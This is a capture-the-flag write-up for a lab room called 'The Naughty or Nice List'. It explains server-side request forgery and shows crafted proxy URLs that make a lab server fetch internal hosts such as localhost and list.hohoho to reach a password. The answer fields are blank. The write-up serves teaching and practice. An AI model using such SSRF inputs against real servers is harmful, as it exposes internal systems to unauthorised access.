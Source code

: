 # The Naughty or Nice List

## Video

{% embed url="https://www.youtube.com/watch?v=XgJ\_6xdspKM" %}

## Resources

### Server-Side Request Forgery

Server-Side Request Forgery \(SSRF\) is a web app vulnerability that allows attackers to force the web application server to make requests to resources it normally wouldn't. For example, a web app may have the functionality to produce screenshots of other websites when a user supplies a URL. This is perfectly valid functionality, however, URLs can also be made for internal IP addresses \(e.g. 192.168.1.1, 10.10.10.10, 127.0.0.1 etc.\) as well as internal-only hostnames \(e.g. localhost, WIN2019SERV.CORP\). If a web developer is not careful, an attacker could provide the app with these and manage to screenshot internal resources, which often have less protections.

To counter this, user-provided URLs can be checked before they are requested, to ensure that malicious values are not being used. However, due to the complex nature of URLs themselves, there are often many things an attacker can do to bypass these checks.

Note that while the example of SSRF used in this task is effectively a Remote File Inclusion \(RFI\) vulnerability as well, not every SSRF is. Some SSRF vulnerabilities only trigger a DNS lookup, while others may not return any kind of response to the web app, but can still be used to "port scan" internal systems by measuring the time each request takes to complete. In other cases, SSRF may be used as a form of Denial of Service \(DoS\) since the attacker can continually request that the server download large files simultaneously \(taking up memory, disk space, and network bandwidth\).

## Challenge

### What is Santa's password?

![](../.gitbook/assets/image%20%28150%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2Fsearch.php%3Fname%3DShell5

{% embed url="https://meyerweb.com/eric/tools/dencoder/" %}

![](../.gitbook/assets/image%20%28162%29.png)

> http://10.10.129.132/?proxy=http://list.hohoho:8080/search.php?name=Shell5

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A8080%2F

![](../.gitbook/assets/image%20%28173%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28190%29.png)

> http://10.10.129.132/?proxy=http%3A%2F%2Flist.hohoho%3A80

![](../.gitbook/assets/image%20%28138%29.png)

> [http://10.10.129.132/?proxy=http%3A%2F%2Flocalhost](http://10.10.129.132/?proxy=http%3A%2F%2Flocalhost)

![](../.gitbook/assets/image%20%28137%29.png)

![](../.gitbook/assets/image%20%28174%29.png)

{% hint style="success" %}

{% endhint %}

### What is the challenge flag?

{% hint style="success" %}

{% endhint %}

